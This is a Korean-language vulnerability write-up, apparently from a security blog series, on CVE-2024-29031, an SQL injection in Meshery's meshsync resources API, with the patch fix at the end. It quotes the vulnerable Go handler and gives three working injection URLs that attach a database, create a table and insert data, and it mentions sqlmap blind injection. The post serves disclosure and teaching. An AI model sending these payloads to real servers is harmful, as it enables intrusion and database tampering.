 ```yaml
---
title: "[하루한줄] CVE-2024-29031: Meshery의 SQL Injection 취약점"
author: ogu123
tags: [SQL injection, Meshery, ogu123]
categories: [1day1line]
date: 2024-03-29 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://securitylab.github.com/advisories/GHSL-2023-249_Meshery/

## Target

- Meshery < 0.7.17

## Explain

Kubernetes 인프라와 애플리케이션 설계 및 관리를 담당하는 Meshery에서 SQL Injection 취약점이 발견되었습니다.
```
func (h *Handler) GetMeshSyncResources(rw http.ResponseWriter, r *http.Request, _ *models.Preference, _ *models.User, provider models.Provider) {
    // --snip--
    order := r.URL.Query().Get("order")
    sort := r.URL.Query().Get("sort")
    // --snip--

    result := provider.GetGenericPersister().Model(&model.KubernetesResource{}).
        Preload("KubernetesResourceMeta")

        // --snip--

    if order != "" {
        if sort == "desc" {
            // --snip--
        } else {
            result = result.Order(order) // <- SQL Injection!
        }
    }

    err := result.Find(&resources).Error
    // --snip--
}
```
`/api/system/meshsync/resources`  API URL을 통해 `order` 매개변수를 전달할 경우`GetMeshSyncResources` 함수에서 매개변수를 처리합니다.

이때 `order` 매개변수의 값을 검증하지 않고 SQL문으로 사용하여 취약점이 발생했습니다.

```
http://(server):9081/api/system/meshsync/resources?order=1%3bATTACH+DATABASE+'/tmp/test'+AS+test--
http://(server):9081/api/system/meshsync/resources?order=1%3bCREATE+TABLE+test.pwn+(dataz+text)--
http://(server):9081/api/system/meshsync/resources?order=1%3bINSERT+INTO+test.pwn+(dataz)+VALUES+("pwned")--
```
위 세가지 요청을 통해, 공격자는 서버 DB에 접근하여 임의의 DB 파일을 생성하고, 그 안에 새로운 테이블과 데이터를 추가할 수 있습니다.

추가로 기존 DB 테이블에 원하는 데이터를 삽입하거나, sqlmap 도구를 통해 blind sql injection 공격으로 서버의 민감한 정보를 얻을 수 있습니다.

![](cve-2024-29031/image1.png)

해당 취약점은 `models.SanitizeOrderInput` 함수를 사용해 `order` 매개변수 값을 세 가지(created_at, updated_at, name)로 검증하는 코드가 추가되어 패치되었습니다.


## Reference

- [CVE-2024-29031 - Patch](https://github.com/meshery/meshery/blob/v0.7.17/server/handlers/meshsync_handler.go)
